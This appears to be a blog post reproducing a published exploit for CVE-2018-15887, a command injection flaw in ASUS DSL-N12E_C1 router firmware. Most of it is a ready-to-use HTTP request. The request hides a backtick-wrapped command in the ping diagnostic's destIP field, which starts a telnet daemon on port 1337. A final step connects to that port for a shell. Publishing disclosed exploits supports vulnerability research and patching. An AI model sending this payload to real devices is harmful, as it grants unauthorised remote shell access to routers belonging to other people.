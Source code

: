 ```yaml
---
layout: post
title: "[CVE-2018-15887] ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution"
comments: true
description: "ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution"
keywords: "asus, iot, dsl-n12e, rce, command injection"
---
```


Exploit Title: ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution<br>
Date: 2018-08-02<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.asus.com/<br>
Software Link: https://www.asus.com/Networking/DSLN12E_C1/HelpDesk_BIOS/<br>
Version: 1.1.2.3_345<br>
Tested on: 1.1.2.3_345<br>

```
GET /Main_Analysis_Content.asp?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&next_host=www.target.com&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&applyFlag=1&preferred_lang=EN&firmver=1.1.2.3_345-g987b580&cmdMethod=ping&destIP=%60utelnetd+-p+1337%60&pingCNT=5 HTTP/1.1
Host: www.target.com
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://www.target.com/Main_Analysis_Content.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

To connect
1. telnet www.target.com 1337
